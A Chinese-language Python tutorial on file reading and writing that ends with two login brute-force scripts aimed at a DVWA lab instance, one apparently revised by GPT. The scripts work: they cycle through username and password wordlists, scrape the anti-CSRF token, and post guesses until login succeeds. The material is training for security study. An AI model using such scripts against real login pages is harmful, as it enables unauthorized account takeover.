**打开文件的模式有：** 

1. 只读模式（默认）
2. 只写模式（不可读，不存在则创建，存在则覆盖）
3. 追加模式（可读，不存在则创建,存在则只追加内容）

**”+” 表示可同时读写某个文件：** 

1. r+ 可读写文件（可读，可写，可追加）
2. w+ 写读
3. a+ 追加

**U” 表示在读取时，可以将\r \n \r\n自动转换成\n**

U” 表示在读取时，可以将\r \n \r\n自动转换成\n（与r或者r+模式同时使用）

因为Windows系统的换行符为\r\n，Linux系统的换行符为\n，加上U则能自动把\r\n转换成\n 

1. rU
2. r+U

**“b” 表示处理二进制文件:**

1. rb
2. wb
3. ab

### open()

**open()** 方法用于打开一个文件，并返回文件对象，如果该文件无法被打开，会抛出 **OSError** 异常 ，另外需要注意的是，使用 **open()** 函数需要手动关闭文件。 

语法： open(file, mode)  mode 为模式 

```python
pass_file = open(r'C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\pass.txt','r+')
read_pass = pass_file.read()
print(read_pass)
pass_file.close()
```

ps：`pass` 在Python中是一个保留字，用于在语句需要语法上存在但程序不做任何操作时占位。因此，你不能使用 `pass` 作为变量名。



读取文件内容 (可指定每次读取字字符) 

```python
pass_file = open(r'C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\pass.txt','r+')
read_pass = pass_file.read(8) #指定读取7个字符，换行符也算作一个字符！
print(read_pass)
pass_file.close()
```



### readline()

**readline()** 每次读出一行内容 ，该方法比较适合大文件 

```python
pass_file = open(r'C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\pass.txt','r+',encoding='utf-8')
read_pass = pass_file.readline()
while read_pass != '':
    print(read_pass)
    read_pass = pass_file.readline()
pass_file.close()
```



readlines() 读取所有内容（可指定读取字符数），并保存在列表(list)变量中，每行作为一个元素该方法读取大文件会比较占内存。

```python
pass_file = open(r'C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\pass.txt','r+',encoding='utf-8')
read_pass = pass_file.readlines()
for line in read_pass:
    print(line)
pass_file.close()
```



### linecache 模块

对于特殊需求，比如要输出某个文件的第n行内容,可以用 linecache 模块

`linecache.getline` 函数用于从指定的文件中获取特定行的内容，但它返回的是一个字符串，而不是一个文件对象或其他需要关闭的资源。因此，尝试对返回的字符串调用 `.close()` 方法会导致错误，因为字符串对象没有 `close` 方法。

```python
read_pass = linecache.getline(r'C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\pass.txt',6)#读第6行
print(read_pass)
```



### with open

如果 是使用 with open 方式，那么可以不用手动关闭文件，此方法会自动关闭文件。

```python
# 使用with语句安全打开文件
with open(r'C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\pass.txt', 'r') as read_pass:
    lines = read_pass.readlines()  # 读取所有行到一个列表

# 遍历列表中的每一行并打印
for line in lines:
    print(line, end='')  # print默认会添加换行符，所以用end=''避免重复的换行
```




### 文件写入：

### write() 方法

write() 方法将字符串写入文件中，默认是不换行的，如果想换行的话，得手动加入换行符 ‘\n’

```python
f = open('D:/test2.txt','a+')

f.write('hello world\n')
```

**a+** 为追加模式 

如果是 **w+** 的话，则会覆盖掉之前的内容，然后重新写入 

### 文件删除：

文件删除使用 **os** 模块的 **remove()** 函数去完成 

前面在 os 模块中也有提到过

### os.remove(path)

**os.remove(path)** 删除指定的文件。若 path 为一个目录，则引 PermissionError 异常

```python
>>> import os
>>> r = os.remove('D:/test.txt')  #  删除在D盘下的test.txt文件
>>> print(r)
```

## 基础就这些，其他的需学以致用


## 第一个EXP-DVWA登录爆破

```python
import sys
import requests
import re

url = 'http://10.1.10.1/login.php'
headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0'
        }
# 读取用户名
with open(r'.\user.txt', 'r') as username_file:
    usernames = username_file.readlines()
# 读取密码
with open(r'.\pass.txt', 'r') as password_file:
    passwords = password_file.readlines()
# 对每对用户名和密码尝试登录
for username in usernames:
    for password in passwords:
        session = requests.Session()
        response1 = session.get(url)
        user_token = re.search(r'[0-9a-z]{32}', response1.text)

        data = {
            'username': username.strip(),
            'password': password.strip(),
            'Login': 'Login',
            'user_token': user_token.group()
        }
        response2 = session.post(url, data=data, headers=headers)

        if "You have logged in as" in response2.text:
            print(f"登录成功: 用户名 - {username.strip()} 密码 - {password.strip()}")
            sys.exit()
        else:
            print(f"登录失败: 用户名 - {username.strip()} 密码 - {password.strip()}")
```

## GPT修正版-DVWA登录爆破

```python
import sys
import requests
import re

url = 'http://10.1.10.1/login.php'
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0'
}

# 使用Session对象复用同一会话
session = requests.Session()

try:
    # 读取用户名
    with open(r'.\user.txt', 'r') as username_file:
        usernames = username_file.read().splitlines()
    # 读取密码
    with open(r'.\pass.txt', 'r') as password_file:
        passwords = password_file.read().splitlines()

    # 对每对用户名和密码尝试登录
    for username in usernames:
        for password in passwords:
            response1 = session.get(url, headers=headers)
            user_token_match = re.search(r'[0-9a-z]{32}', response1.text)

            if user_token_match:
                user_token = user_token_match.group()
            else:
                print('Token未找到，跳过登录尝试。')
                continue

            data = {
                'username': username,
                'password': password,
                'Login': 'Login',
                'user_token': user_token
            }
            
            response2 = session.post(url, data=data, headers=headers)

            if "You have logged in as" in response2.text:
                print(f"登录成功: 用户名 - {username} 密码 - {password}")
                sys.exit()
            else:
                print(f"登录失败: 用户名 - {username} 密码 - {password}")
except Exception as e:
    print(f"发生错误: {e}")
    sys.exit(1)

```

